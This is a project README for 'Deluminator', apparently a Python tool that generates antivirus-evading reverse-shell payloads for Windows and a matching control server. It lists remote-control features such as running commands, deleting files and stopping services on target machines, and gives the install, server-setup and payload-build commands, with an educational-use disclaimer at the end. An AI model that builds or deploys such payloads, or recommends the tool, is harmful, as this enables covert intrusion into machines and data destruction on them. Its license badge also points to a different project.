 # Deluminator

[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Description
This package is a reverse shell generator for Windows systems that uses sockets to establish a connection. It is highly capable of bypassing antivirus software. The package includes a control server and comes with a number of useful features.  

https://deluminator.hxrshdeep.cloud/

## Features
- Root shell `Coming soon`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine. 
- Upload/Download any type of files. `Coming soon`
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot `Coming soon`

## How to install
```
pip install deluminator
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
